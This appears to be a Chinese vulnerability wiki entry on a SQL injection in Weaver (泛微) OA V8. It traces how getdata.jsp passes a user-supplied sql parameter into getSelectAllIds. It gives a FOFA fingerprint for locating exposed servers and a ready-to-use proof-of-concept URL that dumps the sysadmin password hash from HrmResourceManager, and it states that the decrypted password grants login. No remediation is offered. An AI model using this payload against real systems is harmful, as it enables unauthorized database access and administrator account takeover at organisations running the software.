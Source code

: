 # 泛微OA V8 SQL注入漏洞

## 漏洞描述

泛微OA V8 存在SQL注入漏洞，攻击者可以通过漏洞获取管理员权限和服务器权限

## 漏洞影响

> [!NOTE]
>
> 泛微OA V8

## FOFA

> [!NOTE]
>
> app="泛微-协同办公OA"

## 漏洞复现

在getdata.jsp中，直接将request对象交给

**weaver.hrm.common.AjaxManager.getData(HttpServletRequest, ServletContext) : **

方法处理

![](http://wikioss.peiqi.tech/vuln/fanwei-17.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

在getData方法中，判断请求里cmd参数是否为空，如果不为空，调用proc方法

![](http://wikioss.peiqi.tech/vuln/fanwei-18.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

Proc方法4个参数，(“空字符串”,”cmd参数值”,request对象，serverContext对象)

在proc方法中，对cmd参数值进行判断，当cmd值等于getSelectAllId时，再从请求中获取sql和type两个参数值，并将参数传递进getSelectAllIds（sql,type）方法中

![](http://wikioss.peiqi.tech/vuln/fanwei-19.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

根据以上代码流程，只要构造请求参数

?cmd= getSelectAllId&sql=select password as id from userinfo;

即可完成对数据库操控

POC

```
http://xxx.xxx.xxx.xxx/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```

查询HrmResourceManager表中的password字段，页面中返回了数据库第一条记录的值（sysadmin用户的password）

![](http://wikioss.peiqi.tech/vuln/fanwei-20.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

解密后即可登录系统

![](http://wikioss.peiqi.tech/vuln/fanwei-21.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

##  Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Weaver OA 8 SQL injection

![](http://wikioss.peiqi.tech/vuln/fanwei-22.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)


